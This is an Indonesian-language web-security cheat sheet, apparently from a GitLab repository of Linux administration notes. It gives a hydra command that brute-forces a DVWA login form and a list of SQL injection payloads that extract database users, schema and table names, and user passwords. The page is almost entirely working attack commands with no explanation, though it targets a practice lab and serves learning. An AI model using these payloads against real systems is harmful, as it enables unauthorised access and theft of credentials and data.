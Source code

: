 
# Keamanan Web
> Disusun oleh Hardiyanto

### Daftar Isi
* [Serangan]()
    * [BruteForce](https://gitlab.com/dwiHard/LinuxAdministration/-/blob/master/KeamananWeb/KeamananWeb.md#bruteforce)
    * [SQL Injection](https://gitlab.com/dwiHard/LinuxAdministration/-/blob/master/KeamananWeb/KeamananWeb.md#sqlinjection)


### BruteForce
```
hydra 192.168.xx.x -l admin -P /home/hard/Documents/password.txt http-get-form "/dvwa/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect. :H-Cookie: security=low; PHPSESSID=xxxxxxxxxxxxxxxxxxxxxx"
```

### SQL Injection
```
1' OR 1=1#
1' OR 1=1 union all select system_user(),user()#
1' OR 1=1 union select null,schema_name from information_schema.schemata#
1' OR 1=1  union select null,table_name from information_schema.tables#
1' OR 1=1 union select null,@@datadir #
1' OR 1=1 union select null,concat(first_name,0x0a,password) from users #
1' UNION SELECT database(),2-- -
1' UNION SELECT user,password from users#
```
